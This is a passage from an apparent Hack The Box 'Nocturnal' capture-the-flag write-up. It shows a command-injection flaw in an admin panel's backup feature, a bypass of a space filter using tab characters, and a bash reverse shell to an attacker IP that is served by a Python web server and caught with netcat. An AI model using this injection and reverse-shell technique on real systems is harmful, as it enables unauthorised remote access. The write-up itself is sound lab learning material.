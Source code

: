 The database is not included on the backup...

At this point I think that we have to do something else on the admin panel, and after searching for a couple of minutes I see this on the admin.php file:
```
 $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";

...

$process = proc_open($command, $descriptor_spec, $pipes);
```

It creates the backup zip with a system command, this means that whatever we input on the password will be run on the system.
I will use burpsuite to easly run commands and try
![[nocturnal07.png]]

Seems it is working!
I will try to do a reverse shell.
Seems like doing it url-encoded doesn't work... Maybe because is too long¿
![[nocturnal08.png]]

I will create a script with the reverse shell on my local computer and spawn a python web server. Then I will download it and execute it on the server.
```
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ cat revshell.sh                        
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.63/3010 0>&1
```

```
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And after some test, I see that the character in between is not `%20` (space) is `%09` which is the tabulator, maybe the spaces are blocked and it sill works.
![[nocturnal10.png]]

It downloads the reverse shell correctly, and now I only have to execute it.
![[nocturnal11.png]]

And we got a reverse shell working!
```
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ nc -nvlp 3010
listening on [any] 3010 ...
connect to [10.10.14.63] from (UNKNOWN) [10.10.11.64] 40900
bash: cannot set terminal process group (846): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nocturnal:~/nocturnal.htb$ 
```
